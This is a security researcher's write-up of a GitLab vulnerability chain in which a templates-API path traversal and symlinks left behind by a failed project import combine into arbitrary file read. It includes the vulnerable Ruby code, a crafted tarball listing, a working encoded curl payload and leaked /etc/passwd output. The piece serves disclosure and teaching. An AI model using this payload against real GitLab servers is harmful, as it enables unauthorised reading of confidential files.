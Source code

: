 ```yaml
---
title:  "Chaining multiple low-impact bugs to arbitrary file read in GitLab"
categories: security
---
```


Since around August 2019, I began to read the source code of GitLab and test it
over and over. The time pays me back, during the first several months I found
some critical bugs (mentioned in my previous posts). Unsurprisingly, it became
harder and harder to find new high-impact and easily exploitable bugs as the
application was growing with the hunters to be more and more robust.

## Exploit the unexploitable

### Unexplotable directory traversal
In one of my posts, I described that I was using some static analysis techniques
based on Rubocop to find potential exploitable function calls in the source
code. The tool is very trivial and false alarms are inevitable, so I just
ignored those I thought were unexploitable every time I check the output of my
Rubocop. One of them are like this:

``` ruby
module Gitlab
  module Template
    module Finders
...
        def read(path)
          File.read(path)
        end
...
```
This interesting method is calling `File#read` which is a potential command
execution vulnerability if the argument is controllable. (Mentioned in
[this post](/security/CVE-2018-18649-Gitlab-RCE/)). Or even if it's not
fully controllable, the function could still be used to read local files.

So how much can we control the argument? The call stack goes up to the templates
API:

``` ruby
      get "templates/#{template_type}/:name" do
        finder = TemplateFinder.build(template_type, nil, name: declared(params)[:name])
        new_template = finder.execute

        render_response(template_type, new_template)
      end
```

Where `params[:name]` is controllable, then it's passed to `GitignoreTemplate`
then to `GlobalTemplateFinder` finally. I'm not going to paste too much code
snippets here, anyone who is interested in the implementation can visit
[the repository](https://gitlab.com/gitlab-org/gitlab-ce/tree/v11.5.2) for
details.

Finally I figured out that the logic of the `TemplateFinder` is:
1. Concatenate user-inputted `name` with an extension (`.gitignore`) and prefix
them with a category name (`Global`)
2. Find the constructed path in `Rails.root`
3. If `File.exist?(path)`, then call `File.read(path)` and returns the content
through the API

For example:

``` shell
$ curl https://gitlab.com/api/v4/templates/gitignores/SVN
{"name":"SVN","content":".svn/\n"}

$ cat gitlab-ce/vendor/gitignore/Global/SVN.gitignore
.svn/
```

Is there a directory traversal here? Yes.
GitLab ships some gitignore templates outside the Global directory

``` shell
$ curl https://gitlab.com/api/v4/templates/gitignores/%2e%2e%2fScala%2ea
{"name":"Scala","content":"*.class\n*.log\n"}

$ cat gitlab-ce/vendor/gitignore/Scala.gitignore
*.class
*.log
```

Note: the last 2 characters `%2e a` (`.a`) is used to feed the `format`
part of the request in Rails applications. Otherwise `./Scala` would be
treated as the request format.

Finally, we have a crippled directory traversal issue which has several
limits, making it a worthless bug. It's hard to believe that there is any
confidential information in a GitLab instance being stored in some `.gitignore`
files. A simple `find` command proved my assumption, this is an unexploitable
bug.

### Exploit it
But wait, although GitLab doesn't ship any fruitful `blah.gitignore` files
itself, we might could ask the application to create some on the fly. Symbolic
links are always good friends, if we can create a symbolic link in the
file-system and point it to a confidential file, then the directory traversal
becomes exploitable.

The second issue is in project import, I had known it for some time since I was
testing CVE-2018-14364. But I even didn't recognize it as a "bug" due to its
low impact (none impact to be accurate). That when someone tries to import a
tarball which contains any protected (not writable) symbolic links, the import
fails and leaves the temporary directory not purged. The directory has a
`SecureRandom` part in its path so it would not be used again like I did in
[CVE-2018-14364](https://blog.nyangawa.me/security/CVE-2018-14364-Gitlab-RCE/).

Example:

``` shell
$ tar tvf project.tar.gz

-rw-r--r-- asakawa/asakawa 431 2018-12-04 13:16 project.bundle
-rw-r--r-- asakawa/asakawa 1799 2018-12-04 19:10 project.json
dr-xr-xr-x asakawa/asakawa    0 2018-12-04 13:22 uploads/
lrwxrwxrwx asakawa/asakawa    0 2018-12-04 13:22 uploads/link.gitignore -> /etc/passwd
-rw-r--r-- asakawa/asakawa    5 2018-12-04 13:16 VERSION
```

After the import fails, the `link.gitignore` is left alone in the file-system at
somewhere like.

``` shell
/var/opt/gitlab/gitlab-rails/shared/tmp/project_exports/root/interesting-36f24022b707434f2f060c4a3559216f/8cef47205d875e9e9528a844ce20e092/uploads/link.gitignore -> /etc/passwd
```

The information is leaked in the import error page by GitLab itself, actually I
think there's nothing to blame here. Giving as much as potentially useful
information to the user can save a lot of time from blindly debugging.

So, by combining the 2 unexplotable bugs, I get a convincing exploit:

``` shell
$ URL="http://10.26.0.3"
$ PAYLOAD=$(echo "../../../public/uploads/../shared/tmp/project_exports/root/interesting-36f24022b707434f2f060c4a3559216f/8cef47205d875e9e9528a844ce20e092/uploads/link" | sed 's|\.|%2e|g' | sed 's|\/|%2f|g')
$ curl $URL/api/v4/templates/gitignores/$PAYLOAD%2ea

{"name":"link","content":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n
...
```

### Response from GitLab
GitLab has a decent security team, they took the issue seriously and continually
provided updates about the issue and the fix.

They have disclosed [the issue](https://gitlab.com/gitlab-org/gitlab-ce/issues/54857)
in their issue tracker after one month from the fix. I totally believe the value
of transparency and
[GitLab's handbook](https://about.gitlab.com/handbook/values/#transparency)
has a very clear description on transparency. I think it makes sense for
the collaboration between the community of security researchers and the
applications. OSS(open source softwares) give full transparency of their source
code to the community so that the researchers could do much better on improving
the quality of the applications than spending too much time to reconnoitering a
black box and leaving those potentially critical deeply hidden security flaws
undiscovered.
